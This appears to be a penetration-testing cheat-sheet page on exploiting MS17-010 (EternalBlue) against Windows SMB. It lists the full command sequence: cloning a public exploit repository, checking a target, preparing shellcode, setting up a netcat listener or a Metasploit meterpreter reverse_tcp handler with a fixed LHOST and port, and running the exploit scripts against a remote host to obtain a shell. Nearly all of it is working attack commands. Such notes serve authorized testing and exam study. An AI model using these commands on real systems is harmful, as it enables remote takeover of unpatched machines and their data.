 # MS17-010

### Preparation

```bash
git clone https://github.com/3ndG4me/AutoBlue-MS17-010
cd AutoBlue-MS17-010

# Check if your target is vulnerabile
python eternal_checker.py $RHOST

# Prepara attack payloads
cd shellcode
./shell_prep.sh # it is worth choosing the meterpreter 
cd ../
```

### Execution

{% code overflow="wrap" %}
```bash
# Non meterpreter version
Kali> rlwrap nc -nlvp 53
Kali> python eternalblue_exploit7.py $RHOST shellcode/sc_x86.bin 

# Meterpreter version 
Kali> sudo msfconsole -q -x "use exploit/multi/handler;set PAYLOAD windows/meterpreter/reverse_tcp;set AutoRunScript post/windows/manage/migrate;set LHOST 192.168.45.183;set LPORT 1234;run -j"

Kali> python eternalblue_exploit7.py $RHOST shellcode/sc_x86.bin
```
{% endcode %}



### Send\_andexecute.py

<pre class="language-bash"><code class="lang-bash"><strong>This is so obsolete... 
</strong><strong># pip3 install virtualenv==20.21.1
</strong># virtualenv --python=python2 env
# source env/bin/activate.fish
# pip install impacket==0.9.22
#python2 send_and_execute.py $RHOST shellcode/sc_x86.bin
</code></pre>

